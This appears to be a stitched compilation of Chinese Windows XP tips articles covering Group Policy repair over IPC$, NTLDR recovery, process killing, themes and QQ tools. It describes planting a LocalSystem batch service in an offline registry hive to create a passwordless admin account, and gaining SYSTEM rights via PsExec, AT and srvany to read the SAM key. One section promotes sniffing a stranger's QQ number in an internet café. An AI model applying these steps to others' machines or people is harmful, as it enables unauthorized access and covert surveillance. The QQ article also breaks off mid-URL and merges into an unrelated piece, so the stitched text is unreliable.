曾经有网友提了这么一个问题：在“组策略→用户配置→管理模板→系统”的“只运行许可的Windows程序”策略项里指定当前系统能够运行的应用程序，考虑到应该允许“组策略编辑器”，所以把“gpedit.msc”添加到该策略的许可列表中，结果却发现无法打开“组策略编辑器”了。其实“组策略编辑器”的实质是MMC(控制台)进程加载的gpedit.msc管理单元，所以在这里应该添加MMC.exe。如果添加的是gpedit.msc而非MMC，系统自然就无法启动“组策略编辑器”。如果出现这个问题，可采用以下步骤修复：

### 1. 使用此修复方法必需的条件

-   ①该故障计算机必须处于局域网环境中。
-   ②该故障计算机上的防火墙必须经过正确的配置，以允许远程访问组策略工具。
-   ③该故障计算机必须没有禁止管理员账户从网络登录的权力。
-   ④该故障计算机上的“remote registry”服务必须已经启动。

### 2. 修复实例：网络让我“重生”

假设故障计算机的计算机名为NoGpedit，其上的管理员账户名为Admin，密码为Passwd，局域网中另外一台正常计算机名为Test。

第一步：在局域网计算机Test上运行CMD打开“命令提示符”窗口，并运行命令“net use \\NoGpedit\IPC$ /user:NoGpedit\Admin Passwd”（不含引号）。如果命令成功，即可在Test计算机上获得NoGpedit计算机的管理员账户Admin的凭据。

第二步：在局域网计算机Test的“运行”对话框里输入“mmc”并回车，打开微软控制台程序窗口，选择菜单“文件→添加/删除管理单元”，添加“组策略对象编辑器”，将弹出向导的“组策略对象”设置为“另一台计算机”，然后输入NoGpedit，点击“确定”。

第三步：在Test计算机上打开NoGpedit计算机的组策略编辑窗口，将相应的策略项恢复“未配置”。注销NoGpedit计算机并重新登录，结果即可生效。

> (盆盆 @diyinside.com)

## 我有“特权”我怕谁——巧用服务添加管理员账户

不小心把管理员账号的密码给忘记了，这可怎么办？没关系，今天我们用点“特权”，把管理员账户抢回来。本文将给大家介绍一种将批处理文件安装为服务，并用它来新建管理员账户，而我们所用的“特权”是指服务可以在用户登录之前运行，同时比普通应用程序拥有更高的权限（本文适用于Windows XP）。

第一步：打开“记事本”新建一个批处理文件AddUser.bat，内容如下：
@echo off
net user admin /add
net localgroup administrators admin /add

第二步：从http://www.skycn.com/soft/9843.html下载“超级MS-DOS 7.10启动盘”，该启动盘支持在实模式DOS下访问NTFS分区和闪存盘。用该启动盘引导故障电脑，然后将C:\WINDOWS\system32\config\system文件复制到软盘或闪存盘中。接着将先前创建的AddUser.bat批处理文件复制到故障电脑的C盘根目录下。

第三步：在一台正常的电脑上运行regedit.exe打开“注册表编辑器”，选中[HKEY_LOCAL_MACHINE]，并选择菜单“文件→加载配置单元”，在弹出的文件选择框中定位到先前复制出的system文件，并指定加载到[HKEY_LOCAL_MACHINE\Test]分支。

第四步：在“注册表编辑器”中定位到[HKEY_LOCAL_MACHINE\Test\Select]，记下右侧空格中“Current”键值的数值数据x，该键值指定故障电脑加载的配置为ControlSet00x，本文假设其为ControlSet001(见图)。根据这个x的数值，定位到以下注册表项：[HKEY_LOCAL_MACHINE\Test\SYSTEM\ControlSet00x\Services]



第五步：在该分支下新建一个注册表项AddUser，在新建的AddUser项下新建以下键值：
①可扩充字符串键值ImagePath，其数值数据为C:\AddUser.bat。
②字符串键值ObjectName，其数值数据为LocalSystem。
③DWORD键值Start，其数值数据为0x2。
④DWORD键值Type，其数值数据为0x10。

这样就可以新建一个AddUser服务，其登录身份为LocalSystem，启动类型为“自动”，该服务为独享进程。修改结束以后，选择菜单“文件→卸载配置单元”，保存所做的设置。接着将修改好的system文件复制回故障电脑。

第六步：移除启动盘，并重启故障电脑，AddUser服务会在用户登录之前自动运行，由于该服务以LocalSystem账户身份运行，所以有权限新建一个管理员账户admin。完成后我们就能直接以该admin账户登录系统（空密码），删除以下注册表项[HKEY_LOCAL_MACHINE\Test\SYSTEM\CurrentControlSet\Services\AddUser]即可。

> (盆盆 @diyinside.com)## NTLDR，揭开Windows XP启动的秘密

吃过晚饭后，小菜打开电脑，准备夜里加班把领导交办的论文尽快写好打出来。打开电脑后却傻眼了，系统启动时提示“NTLDR is missing, Press any key to restart”，重启后按F8想启动到安全模式，却没有任何反应，仍然是同样的提示！现在连安全模式都进不了，想修复也没办法呀。记得以前有位朋友也遇到过这个问题，是重装系统解决的，但现在系统分区中的一些数据也没来得及备份，而且重装系统再安装相关软件是相当麻烦的事情。难道只有重装系统才能解决吗？有没有更好的方法呢？小菜赶快给大嘴打电话，五分钟后大嘴赶到。

只见大嘴把一张Windows XP安装光盘放入光驱，用光盘引导系统，当提示“要用恢复控制台修复Windows XP安装，请按R”时，按一下“R”键继续，当提示选择要修复的系统时，按“1”键并输入管理员密码进入了“故障恢复控制台”，在控制台命令行中输入“copy f:\i386\ntldr c:\”后回车(不含引号，假设光驱盘符是F)，重启系统后成功启动系统。

给小菜恢复好系统后，大嘴又简单地给小菜介绍了NTLDR的功能：这是典型的NTLDR文件丢失故障，NTLDR是基于NT内核的Windows 2000/XP/2003操作系统启动的核心文件，它在进入系统后就不再被使用，因此很容易被误删除，导致这种故障。当然，如果是NTLDR文件被破坏的话，你得先用“attrib c:\ntldr -s -h -r”取消其系统、只读、隐藏的文件属性，然后再使用复制命令覆盖原来的文件。了解NTLDR对解决系统启动故障是非常有用的，另外它的多系统启动功能也非常实用，可以方便地移植到其他的系统或设备上。这些知识和应用，等你明天给领导交了论文后再告诉你吧。果然不出所料，第二天中午一下班，小菜就去找大嘴请教昨天没有讲完的NTLDR的故事。

## Windows XP启动的秘密

### 1. 谁告诉我们NTLDR丢了

当我们按下电源开关后，电脑开始启动，硬件自检通过后，BIOS会引导电脑并读取硬盘的MBR主引导记录，然后将硬盘引导分区中的引导扇区代码读入内存，同时把控制权交给该代码，引导扇区代码则会从引导分区根目录中读取NTLDR文件，并将控制权移交给它。如果这时引导扇区代码没有在根目录中发现NTLDR文件或NTLDR文件遭到破坏，就会在屏幕上显示NTLDR丢失的信息，也就是小菜遇到的故障了。

### 2. NTLDR需要接管的工作

NTLDR接管系统引导控制权后，要做的事情还有很多。首先它会从根目录中读取Boot.ini文件和BOOTFONT.BIN文件(为NTLDR的中文信息提供字体支持)，根据Boot.ini文件中的配置显示出多系统引导菜单(当然前提是安装了多系统)，并根据用户的选择来调入对应操作系统的启动代码，如果用户选择启动Windows 9x，NTLDR会读取BOOTSECT.DOS文件(Windows 9x系统引导扇区文件)，并将控制权交给BOOTSECT.DOS文件。当用户选择启动Windows XP系统时，NTLDR将会调用NTDETECT.COM文件来获取基本的硬件信息，并加载NTOSKRNL.EXE和HAL.DLL，读取注册表键值决定加载哪些设备驱动程序，然后把控制权传递给NTOSKRNL.EXE。至此，NTLDR的使命结束，接下来会由NTOSKRNL.EXE负责继续启动Windows XP。

如果在显示多系统引导菜单时按下F8键，NTLDR就会显示出系统高级启动菜单，让你选择以“安全模式”、“调试模式”或者“最后一次正确的配置”等模式启动。当然，如果Boot.ini文件中只有一个启动项或者其中的timeout值设为0时，NTLDR将不再显示多系统引导菜单而直接启动默认系统，这时你想打开系统高级启动菜单的话，那就得在Windows XP系统刚启动时就迅速按下F8键才行。

大嘴提示：系统默认情况下，引导分区根目录中的NTLDR以及其他相关文件是看不见的，你需要在资源管理器中单击“工具”菜单中的“文件夹选项”，在“查看”选项卡中取消“隐藏受保护的操作系统文件”的勾选，并选中下面的“显示所有文件和文件夹”选项才能看到这些文件。

### 可高不可低，NTLDR的版本兼容性

NTLDR文件具有向下兼容的特性：高版本系统的NTLDR能够启动低版本系统，也就是说Windows 2003兼容Windows XP/2000，Windows XP兼容Windows 2000。反过来，低版本系统的NTLDR却不能启动高版本系统。如果你已经安装了一个高版本的操作系统，然后又安装了一个低版本的操作系统，就会导致高版本操作系统无法进入的“经典”故障，这就是Windows多系统安装必须按照先低后高原则的原因。当然，解决方面也很简单，用高版本系统安装光盘启动“故障恢复控制台”，用光盘中高版本的NTLDR和NTDETECT.COM替换掉系统中的低版本文件即可。

### 移植NTLDR的多系统引导功能

NTLDR的多系统引导功能非常实用，不仅可以用来启动各版本的Windows系统，而且可以自由挂接启动GRUB、LILO等其他类型的系统引导器。如果你想让Windows 9x系统或者U盘具备多系统引导功能，但又不想再安装Windows 2000/XP/2003的话，我们也有其他的办法来实现。

### 1. 移植到Windows 98

首先从Windows 2003安装光盘(因为2003系统具有最高的兼容性)\I386目录中复制bootfont.bin、ntdetect.com、ntldr三个文件到C盘根目录下。然后从Windows 2000(必须是2000)安装光盘中的I386目录中复制Winnt.exe和dosnet.inf两个文件到C盘根目录。重新启动系统进入纯DOS模式，转到C盘根目录，输入命令“Winnt.exe /a”后回车，这时屏幕上会提示出一些信息，不必管它，只管按回车键，直到再按回车键屏幕显示没有变化了，这时直接按Ctrl+Alt+Del组合键重新启动系统就可以看到多系统引导菜单了。

### 2. 移植到闪存盘或移动硬盘

这个移植就比较简单了，首先下载本刊2005年第18期《将Windows装进你的闪盘里》一文中的“tools.rar”压缩包(http://www.newhua.com/cfan/200518/tools.rar)，将其中的“NTBOOT.EXE”文件解压到D盘根目录，打开命令行窗口，转到D盘后运行“ntboot j:”(盘符J应替换为你的闪存盘或移动硬盘分区盘符)，然后再将bootfont.bin、ntdetect.com、ntldr、boot.ini四个文件复制到闪存盘或移动硬盘分区根目录即可。当然，你还需要根据需要对boot.ini文件作相应的修改。

### 禁止系统崩溃时自动重启

Windows XP SP2以前版本的操作系统在崩溃时会自动重启电脑，这时用户很难发现和判断出系统故障类型。而从Windows XP SP2开始，NTLDR新增了一个特性，允许用户设置是否自动重启电脑。在系统启动时按下F8键，在高级启动菜单中可以看到“系统崩溃时禁止自动重启”选项，启用这个选项后，Windows在启动过程中如果发生致命错误，将以显示蓝屏信息取代自动重启，这样我们就可以直观地了解到是系统出现了问题，而不会因为电脑总是自动重启而莫名其妙。另外，我们也可以在系统属性中来关闭自动重启设置，在系统属性窗口中单击“高级”标签，然后在“启动和故障恢复”栏中单击“设置”按钮，在弹出对话框中取消“自动重新启动”选项(见图)的勾选，最后单击“确定”按钮即可。



(软件DIY)

## 杀元凶 我们同是受害者

菜鸟：最近经常有朋友来信质问：“为什么乱发带有病毒的E-mail！”，但用好几种杀毒软件，连续查杀了好几次，而且都是用最新的病毒库，但就是找不到病毒！

专家答疑：我想你的电脑应该是正常的，没有中毒。但没中毒为什么会有这种现象呢？因为病毒程序也是会不断进步的，它会伪装。

按照以前的想法：只有某某人的电脑中了病毒，他才会发出病毒邮件，只要看这个邮件地址是谁的，就能断定哪个人的电脑已经中了毒。打个比方，用户甲收到来自aaa@bbb.com的病毒信，那么就是说：aaa@bbb.com的电脑已经中毒了，所以才会发出这种含病毒的邮件。对以前的邮件病毒而言，的确如此。

不过，现在可不一定，因为病毒会改进，事实上aaa@bbb.com的电脑是正常的，而是病毒假冒aaa@bbb.com来寄信。所以可怜的aaa@bbb.com成了众矢之的。而真实情况是aaa@bbb.com的电脑根本没有中毒，这封病毒邮件真正来源是发自于某个用户乙。用户乙的电脑中毒了，aaa@bbb.com只是正巧在这位用户乙的通讯录里。于是，病毒就拿用户乙通讯录里的邮件地址随机取一个当作发信地址，对外传送含有病毒附件的邮件，换个角度看，用户乙通讯录里的这些人，都是很无辜的，他们没有中毒，都有可能背负散播病毒这个罪名。

有没有可能找出元凶是谁？但这几乎是不可能的任务。因为，这种邮件病毒的特色之一，就是不会拿中毒者的E-mail地址当作发信地址，而是以其通讯录中的E-mail地址随机取样作发信地址，再寄给他通讯录中的其他人，一传十、十传百，成等比级数无限扩散下去后，谁是真正来源也就不知道了，大家都是受害者。前阵流行的KLEZ病毒以及变种KLEZ.GEM，就是这类病毒的典型例子。

## 小提示

### 如何做到有效防毒

- ★将杀毒软件及其病毒定义库更新到最新版本，并且在接收及查看邮件时务必确认实时防护功能已经打开。
- ★尽量避免在“通讯簿”中设置过多的联系名单，如果要发送新邮件，可以进入邮件的储存目录，打开客户发来的邮件，利用“回复”功能来发送新邮件，如果客户或朋友较多，回复不便，可新建一个文本文件(做好备份，记得路径及名称)，把客户的邮件地址一一列入其中，这样虽然麻烦一点，但能有效防止邮件病毒的进一步传播。
- ★不要使用信纸模板，有些邮箱管理软件提供了信纸模板，这使信件更美观，但这些信纸模板是一些脚本文件，如果模板感染了脚本病毒例如欢乐时光，那么用户发出的每一封信都会带上病毒。
- ★尽量不使用邮箱工具中的预览功能，如今破坏性较强的邮件病毒，可以在用户未打开邮件，仅在预览时就发作，所以建议用户关掉邮箱工具的预览项。

(懒得理你)

## 三种方法，让程序拥有“特工”身份

SYSTEM 账户是系统中一个非常特殊的账户，其享有的权力甚至凌驾于管理员账户，就好像系统中的“特工”身份。可能有读者朋友感到困惑，为什么在“用户账户”控制面板里找不到这个账户？其实在我们输入用户名、密码登录系统前，SYSTEM 账户就已经存在于系统上。不信？在“资源管理器”中右击任意文件后选择“属性”，在“安全”选项卡中就能找到这个神秘的账户了。

小提示
要查看文件的权限,则该硬盘分区的文件系统必须为NTFS,且系统必须是Windows 2000/XP专业版,同时在“文件夹选项”中去除了“使用简单文件共享”的勾选。

很多操作系统的组件，例如 S M S S 、winlogon等,还有系统中的服务，都是以SYSTEM身份来运行的(见图)。SYSTEM账户是一柄双刃剑，不仅是病毒和黑客工具的兵家必争之地，如果利用得好，也可以成为系统管理员手中的“屠龙宝刀”。不少系统资源只有SYSTEM账户才有权限访问,例如[HKEY_LOCAL_MACHINE\SAM]注册表项和C:\System Volume Information文件夹。如果能够获得SYSTEM权限，就可以访问这些原本只向SYSTEM账户“特供”的系统资源。



可是如何用SYSTEM账户运行程序呢？难道需要用SYSTEM作为用户名来登录系统？那么密码是什么？这一大堆问题可能已经把你弄得晕头转向了。本文介绍三种提升进程运行特权的方法，以帮助大家更好地利用SYSTEM账户。

### 强力的进程辅助工具：PsExec

PsExec 是著名的PsTools工具集中的一个程序(下载地址:http://www.newhua.com/cfan/200519/psexec.rar),我们可以借助PsExec 命令工具“借”来SYSTEM身份运行进程。

### 实例:PsExec 让我看待 System Volume Information 目录

我们已经知道只有SYSTEM账户才能访问C:\System Volume Information 目录，如果借助PsExec 命令打开CMD 命令提示符窗口，然后在命令提示符下执行DIR 命令便可查看该文件夹下的内容。

首先以管理员身份登录系统，运行CMD 打开“命令提示符”窗口。然后在其中执行以下命令，以SYSTEM身份打开另一个CMD窗口。
PsExec -i -d -s CMD
最后在新打开的“命令提示符”窗口下运行以下命令“DIR /a "C:\System Volume Information"”(不含外侧中文引号)，这样就能查看C:\System Volume Information 目录中的内容了，因为新开的“命令提示符”具备SYSTEM账户的权限。如果对此有疑问，可以打开“任务管理器”，在“进程”选项卡中就能看到CMD.EXE进程的用户名是SYSTEM了。

疑难解答:如果用PsExec 时出现了问题，那么应该检查一下系统中的管理共享ADMIN$是否打开。另外，必须使用管理员账户运行此程序。

小提示
虽然上面的例子中,在“命令提示符”中已经可以访问C:\System Volume Information目录,但是无法在“我的电脑”中打开这个目录,事实上并不存在“我的电脑”这个进程,它是由explorer进程所加载,而我们无法让explorer进程运行在SYSTEM特权级别下。

### 权限提升A计划:AT 命令

由AT 命令启动的计划任务，默认以SYSTEM特权运行，我们可以利用这个特性来实现让指定程序以SYSTEM运行。

实例:用AT 命令深挖[HKEY_LOCAL_MACHINE\SAM]注册表项
在[HKEY_LOCAL_MACHINE\SAM]中保存的是系统中的用户账户信息，涉及安全和稳定性，所以默认情况下连管理员都无法访问，只有SYSTEM账户有权限访问这个注册表项(如果连SYSTEM都无法访问，那就不能登录系统了)。

首先以管理员身份登录系统，打开“命令提示符”窗口并执行“Time /T”命令，从返回的信息中获得当前的系统时间，假设是13:19。得到系统时间是为AT命令的参数做准备(AT命令的使用可参考本刊2005年第10期的《DOS快餐店》)，然后执行命令“at 13:24 /interactive C:\WINDOWS\regedit.exe”，其中的命令参数/interactive表示以交互模式运行“注册表编辑器”，如果不加此参数将无法看到启动的“注册表编辑器”。到了13:24后，系统就会以SYSTEM账户的身份运行“注册表编辑器”，此时展开[HKEY_LOCAL_MACHINE\SAM]就能看到其下的内容了。

疑难解答:使用AT 命令必须保证Task Scheduler服务已经启动，否则会发生错误。

小提示
尽管可以用“Schtasks /ru SYSTEM”命令以SYSTEM特权运行某个进程，但此时无法以交互模式访问进程，也就是说无法看到以SYSTEM特权运行的程序界面。

### 穿上服务的外衣

由于系统中的服务也能使用SYSTEM账户运行，所以可以将应用程序安装为服务，并且使服务以SYSTEM账户身份运行(在完成下面的操作前，需要先安装Windows Server 2003 Resource Kit Tools，下载地址:http://www.newhua.com/cfan/200519/rktools.exe)。

实例:举个例子，可以将注册表编辑器安装为服务，以SYSTEM账户身份运行，步骤如下:
以管理员身份登录系统，打开“命令提示符”窗口，运行“Instsrv "Regedit Service" "C:\Program Files\Windows Resource Kits\Tools\Srvany.exe" -a LocalSystem”(不含外侧中文引号)，然后执行“reg add "HKLM\SYSTEM\CurrentControlSet\Services\Regedit Service\Parameters" /v Application /t REG_SZ /d "C:\WINDOWS\regedit.exe" /f”(不含外侧中文引号)，运行services.msc打开“服务”管理单元窗口，双击刚才新建的“Regedit Service”服务，在弹出对话框中切换到“登录”选项卡，确保勾选“允许服务与桌面交互”。

小提示
命令中的“Regedit Service”用来指定服务的名称，“C:\Program Files\Windows Resource Kits\Tools\Srvany.exe”可替换为Srvany.exe的实际安装路径，最后的“C:\WINDOWS\regedit.exe”则是需要安装为服务的程序路径。

(盆盆 @diyinside.com)

## 惊艳！XP原来可以如此美丽

虽然Windows XP刚“出道”时,它那漂亮的“脸庞”也让我们为之着迷，但时间久了难免会出现“审美疲劳”，很难让我们有新的感觉了。如果想换种感觉或想让自己的电脑更个性一些，不妨跟我一起让Windows XP彻底变脸，让你的电脑拥有惊艳之美!

第一步:修改主题限制文件Uxtheme.dll。
由于Windows XP在系统中做了限制，不允许使用第三方主题文件,而这种限制正是通过Uxtheme.dll 文件和文件保护功能来实施的，通过对Uxtheme.dll 文件进行修改可以解除这种限制。要修改此文件,我们可以使用一款叫做Neowin UXTheme Multi_Patcher的工具,它可以对各种系统版本的Uxtheme.dll文件自动修改。

Neowin UXTheme Multi_Patcher小档案
软件版本:4.0
软件大小:830KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://hnpy.onlinedown.net/down/uxpatcher.zip

运行软件后，单击“Patch”按钮后会弹出重启系统的提示，先不要点“OK”按钮，紧接着Windows XP的文件保护功能会弹出提示，这时要单击“取消”按钮，并在继续弹出的“确认保留这些不可识别的文件版本吗？”对话框中单击“是”按钮确认替换修改，最后再单击“OK”按钮重启电脑即可。

第二步:安装主题文件Pack Crystal XP
Pack Crystal XP小档案
软件版本:3.0 RC1
软件大小:15480KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://soft.btb.com/SoftDown.asp?ID=35141&lbID=0
Pack Crystal XP是一款可以适用于所有Windows XP版本的主题文件，在安装过程中它会提示你安装选项(见图)，在这里可以看到其丰富的系统修改功能，建议全部选择，以实现完美效果。安装完毕后，根据提示重启系统，你就能看到这种令人惊叹的美丽了，所有系统图标都焕然一新，变成了漂亮的水晶图标，甚至连资源浏览器、IE浏览器工具栏图标，以及添加新硬件、添加打印机对话框中的图片都进行了替换，变得非常漂亮。而开始菜单是最让笔者欣赏的地方，不仅右边系统功能图标有了变化，而且没有了文字显示，让开始菜单显得简洁而美观，不像Windows XP原来的开始菜单那样显得臃肿。Pack Crystal XP对系统的修改是真正彻底的，就连复制文件的动画也换成了与主题风格一致的效果。


不仅如此，Pack Crystal XP主题还允许进行一些自定义设置。除安装后自动使用的桌面墙纸外，它还自带了许多漂亮背景，在桌面属性“桌面”选项卡中单击“浏览”按钮，打开C:\WINDOWS\Packs\Crystal XP\Extras\Wallpapers目录，就能看到许多和主题有关的桌面墙纸，非常精美。另外，资源管理器和IE工具栏图标修改实际上是通过一个叫做Y'Z Toolbar的软件来实现的，它还带有其他图标样式，在工具栏空白处单击鼠标右键，选择“Y'Z Toolbar→Settings”打开设置对话框，在“Themes”选项卡中选择使用其他图标样式。

小提示
Pack Crystal XP带有完整卸载程序，可以让你完全恢复以前的系统样式，在开始菜单程序组中打开“Pack → Crystal XP → Uninstall Crystal XP 3.0”即可卸载。

(软件 DIY)## 我不信邪！没有服务Windows照样能运行

——史上最强优化，打造无服务版 Windows

Windows XP 发布至今已经好几年了，关于它的优化技巧层出不穷，从删除无关的组件到禁用多余的系统服务，优化狂人们几乎榨干了系统的最后一滴油。但无论怎么优化，在配置较低的电脑上，始终是Windows 9x比Windows XP速度更快一些，因为Windows XP是基于服务的，系统中的N个服务占用了相当比例的资源（虽然可以通过优化禁用其中的一部分，但仍有很多服务是无法禁用的）。

看了上面的话，你可能已经对Windows XP的进一步优化失去了信心，可是如果我告诉你，Windows XP可以脱离所有的服务，像Windows 98那样运行，你信不信？接下来的试验将告诉你答案。

测试环境：Windows 2000 SP4/Windows XP SP2

注意：测试过程有危险，有可能导致系统故障，推荐使用 Ghost 对系统进行备份或在虚拟机中进行试验。

## 直击关键系统进程

### 1. 被限制的进程终止功能

系统服务大多以关键系统进程为宿主来运行，比如 smss.exe 中包含 SmcService 服务，lsass.exe 中包含 PolicyAgent、ProtectedStorage、SamSs等安全相关服务，如果能将这些进程中止掉，其中包含的服务也就不再运行了。于是，我们打开了系统自带的“任务管理器”，在“进程”选项卡中对所有系统进程逐一进行了试验，最后发现：在中止 Smss.exe、Winlogon.exe、Services.exe、Lsass.exe、Csrss.exe这几个进程时，都会收到关键系统进程无法结束的错误提示。原来Windows在设计时就考虑到这几个关键的系统进程如果被意外关闭的话，可能导致系统问题，所以在自带的“任务管理器”中做了限制。

### 2. 绕开“任务管理器”的限制

首先在Windows自带的“任务管理器”可以实现的范围内，中止所有可以关闭的应用程序进程（如果想保留系统桌面，可以不中止 explorer.exe进程），对于受限的关键系统进程，我们何不试试第三方的进程管理工具呢？就拿著名的Process Explorer来举例吧，首先从http://nj.onlinedown.net/soft/19289.htm下载这款软件，解压后运行其中的 procexp.exe 即可打开这个工具，试着右击一个系统关键进程，如 Winlogon.exe，选择“Kill Process”，不再出现关键系统进程无法关闭的提示了，但取而代之的竟然是……蓝屏！？难道关键系统进程中止后就会导致系统故障吗？

### 3. 擒贼先擒王：进程依存关系解析

为什么刚才在中止 Winlogon 时会出现蓝屏？因为系统中还存在着一个 Smss.exe 进程，Smss.exe的全称是 Session Manager（会话管理器），它从系统启动后就开始监视 Winlogon.exe的状态，刚才在未中止 Smss.exe的状态下就先中止了 Winlogon.exe，Smss.exe 认为系统出现了异常，继而显示一个蓝屏。而如果我们先将 Smss.exe 的进程中止掉（同样是右击 Smss.exe，选择“Kill Process”，注意不要选择“Kill Process Tree”），然后再将 Winlogon.exe 进程中止掉。此时，就可以对剩下的 Services.exe 和 Lsass.exe 下手了（中止 Services.exe 进程时可以选择“Kill Process Tree”，以便同时中止其下的附属进程），值得注意的是，如果在中止掉 Winlogon.exe 之前就中止了这两个进程，那么系统就会弹出倒数计时重启的对话框（见图），就像中了“冲击波”病毒一样，不过可以在“开始→运行”中使用“shutdown -a”命令取消重启。



总结一下，正确的进程中止顺序是：Smss.exe→Winlogon.exe→Services.exe（包括其下附属进程）和 Lsass.exe。另外，Csrss.exe 和 System 进程是不能中止的，而 System Idle Process 则是一个并不存在的进程，只是用来显示系统中空闲的CPU资源的。

### 小提示

★ 在使用中止进程前，先去除Process Explorer菜单“Option”中的“Confirm kill”的勾选，这样在中止进程时就不会弹出确认框了。

★ 在中止掉关键系统进程后可能会出现几十秒的假死，如果遇到这种情况请耐心等待。

## 最优化系统使用指南

### 1. 最优化系统适用的场合

系统在剔除了服务和其他多余的进程后，运行速度提高不少，但优化后速度的提升空间因人而异。

- ① 需要大量系统资源的程序，如 BT下载。一般 BT 软件的系统资源占用与硬盘读写频繁度是成反比的（软件中有相关的设置项），而经过最优化后的系统就能面不改色地用更多的系统资源占用换来硬盘的“长寿”。
- ② 在未关闭服务时，速度比较慢的游戏。在笔者的电脑上运行《侠盗猎车》的游戏载入时间由原来的15秒左右减少到了5秒以内。
- ③ 简单的上网冲浪。经过测试 Maxthon 无法打开，但可以使用系统集成的IE（使用“任务管理器”菜单的“文件→新任务（运行）”打开）。

### 2. 功能与性能不能两全

由于系统中的大量关键组件被停用，所以在使用上有一些限制，具体表现为：

- （1）与服务相关的程序可能无法正常运行。
- （2）系统没有声音。
- （3）游戏的局域网对战功能失效。
- （4）无法正常关机、重启。

### 火速链接

本文的主旨是告诉大家没有服务，Windows照样可以运行，但要进行各种正常操作还得让这些服务运行，当然系统服务调整得当会给 Windows 带来很大的性能提升，但哪些该关，哪些又必须开启呢？如果你喜欢玩游戏，又该如何使电脑的游戏性能最强呢？我们曾在2004年第18期特别话题《摆脱龟速 让Windows真正飞起来》中为大家提供了《Windows 2000/XP服务调整天书》，请到http://www.newhua.com/cfan/200418/cfabjxoserver.rar下载。

（天使之心）

## 多种武器助你驯服小企鹅

经常上网的朋友都离不开 QQ 这只小企鹅，大多数人仅仅会用它聊天，而对于QQ程序本身功能上的一些限制或不足之处，却无能为力了。今天就给大家带来了驯服小企鹅的若干种工具，一起来试试吧！

### 在老板眼皮底下聊QQ

工作时间无法与MM电话诉衷肠，只好借助 QQ，可是身后老板“杀人”的目光随时有可能瞄到，该如何是好……

使用工具：QQ 2005 Beta2 珊瑚虫版3.1.5a
下载地址：http://nj.onlinedown.net/soft/32845.htm

第一步：打开珊瑚虫版QQ的安装目录，运行其下的 CQQCfg.exe，这是珊瑚虫外挂程序的参数定制器。选择左侧栏的“扩展设置”。



第二步：在界面右侧的“老板键设置”中调整默认设置，将老板键设置为一个最容易按的键（如 F2），默认的“Ctrl + ~”在老板出现时往往让人措手不及（见图1）。

第三步：点击“系统托盘图标”右侧的“浏览”按钮，选择一个代替QQ在系统托盘中的默认图标，比如改成透明的图标文件或者 Maxthon 浏览器的图标。点击最下方的“保存设置”，重新启动 QQ 即可生效。

### 找出网吧里PLMM的QQ号

有人说QQ是网恋情结的产物，在QQ上泡MM者在QQ的在线者中占了相当大的比例。但如果机会就在身边，比如你在网吧里见到了让你心仪的MM时，是否有种近水楼台先得月的冲动？如何得到她的QQ号？显然，直接去问和歪着脖子看都可能适得其反，我们要用的是更高级的方法。

使用工具：QQ sniffer
下载地址：http://www.newhua.com/cfan/200519/qqs niffer.zip

第一步：首先安装 QQ sniffer，由于该工具的网络抓包功能是基于 Wincap 驱动的，所以需要在本机安装 Winpcap，解压缩下载的软件包运行 winpcap 3.1 beta4 安装程序。

### QQ被盗之后，把好友找回来

现在的QQ盗号木马简直让人防不胜防，稍不留神你的QQ号就“已在别处登录”了。QQ号没什么可惜的，如果曾经注册过“密码保护”则可在http://service.qq.com/psw/mo conime.exe 洗冤录

## 小菜与“新型木马”的较量

### 1. conime.exe具有“木马特征”

自从大嘴数次为自己解决了进程中的疑难问题后，小菜下决心一定要把“任务管理器”中的未知进程都查个“底儿朝天”，这不？他又发现了一个奇怪现象，当运行CMD打开“命令提示符”窗口时，在“任务管理器”进程列表中同时出现了一个从未见过的进程“conime.exe”，关闭命令行窗口后，它仍在继续运行，于是在“任务管理器”中强行结束了这个进程，然而当再次运行CMD时，conime.exe进程又自动出现了。直觉告诉小菜（虽然他的直觉一向不准……），这是一种关联并植入在CMD程序中的新木马。

### 2. 查杀未果，大家都说是木马

根据以往的查杀经验，小菜赶紧打开了“系统信息”（开始→程序→附件→系统工具→系统信息），展开“软件环境→正在运行任务”，发现这个conime.exe进程的文件路径是c:\windows\system32\conime.exe（见图1），于是先在“任务管理器”中结束这个任务进程，然后打开System32目录，删除了它的源文件conime.exe，谁知这边刚删除文件，系统中就又自动冒出了一个完全一样的conime.exe文件，厉害！这是什么病毒，难道还有其他的木马守护程序在运行吗？先上网搜索一下这个进程，看看有没有可以参考的信息，于是打开专业的进程信息查询网站http://www.dofile.com进行搜索，搜索结果着实把小菜惊出了一身冷汗（平时这么小心怎么还是中招了——！），网站中提示是一个叫做BFHost的木马程序（见图2），建议删除，可病毒源文件无法直接删除呀，看来还是得让大嘴过来了。



### 小知识

#### 木马守护进程

最早的木马都是单个进程的，而且进程的隐藏技术也不像现在这样日新月异，所以通过进程管理工具就能轻易结束木马的进程。后来木马程序编写者们为防止别人轻易结束掉木马进程，研究了一种新技术，称为“木马守护进程”，其原理就是在系统中再追加一个进程，监控木马进程状态，如果监测到木马程序的进程被结束，就立即重建一个木马进程。可能你会说那么找到并结束这个守护进程不就可以了吗？木马程序的编写者当然也想到了，所以来出现的守护进程型木马的木马进程和守护进程都是相互监控的，有一方被结束后，另一方会立即为其恢复，对于这类木马，可以使用我们以前介绍过的IceSword（冰刀，下载地址：http://www.xfocus.net/tools/200508/IceSword1.12.rar）的“创建进程规则”功能来阻止其恢复，然后再结束进程。

#### 进程知识库
conime - conime.exe - 进程信息
进程文件：conime 或者 conime.exe
进程名称：BFHost 1.0
描述：
conime.exe是BFHost 1.0远程控制后门程序的一部分。这个后门程序能够运行攻击者访问你的计算机，窃取密码和个人数据。这个进程的安全等级是建议立即进行删除。

### 大多数人掌握的并非真理

#### 1. 文件版本信息证明清白

大嘴在“系统信息”中看了一下conime.exe进程的文件路径，然后又向右拖动窗口滚动条查看了这个进程的版本和文件日期信息，告诉小菜：conime.exe本身是一个正常的系统进程，现在关键是要看它有没有被木马程序替换，你看这里的信息显示与正常的Windows系统文件是完全一样的（见图3），而通常的木马程序即使模仿，也不会做得这么仔细，你的电脑中的这个进程是正常的。

#### 2. 假相的由来

